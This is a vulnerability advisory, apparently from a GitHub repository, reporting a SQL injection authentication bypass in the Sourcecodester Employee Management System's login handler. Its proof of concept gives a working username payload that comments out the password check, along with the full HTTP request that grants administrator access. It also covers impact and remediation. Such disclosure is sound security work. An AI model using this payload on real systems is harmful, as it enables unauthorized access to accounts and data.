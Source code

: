 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - SQL Injection Authentication Bypass

### Title: SQL Injection Authentication Bypass
### Affected Component: /process/aprocess.php
### CWE-287: Improper Authentication 
### CVSS Base Score: 7.5 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
SQL injection authentication bypass poses a significant threat by enabling unauthorized access to the system, allowing attackers to exploit vulnerabilities in authentication mechanisms. This can lead to severe consequences including unauthorized entry into sensitive areas, exposure of confidential data, manipulation of system integrity, reputational damage, and potential regulatory compliance violations. The exploit's ability to circumvent authentication safeguards undermines the confidentiality, integrity, and availability of the system, emphasizing the critical need for robust security measures and prompt mitigation of SQL injection vulnerabilities to safeguard against these multifaceted risks.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, begin by accessing the login page of the application. In the username field, input the following payload: `"admin'+--+". This payload aims to manipulate the authentication process by injecting SQL syntax to bypass the login mechanism. Upon submitting the login form with this payload, observe that the application grants access as if logged in as an administrator without requiring a valid password. This indicates successful exploitation of the SQL injection vulnerability, allowing unauthorized access to sensitive areas of the application.

#### HTTP Request:
```http
POST /process/aprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: [REDACTED]
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=admin'+--+&pwd=nochizplz&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.

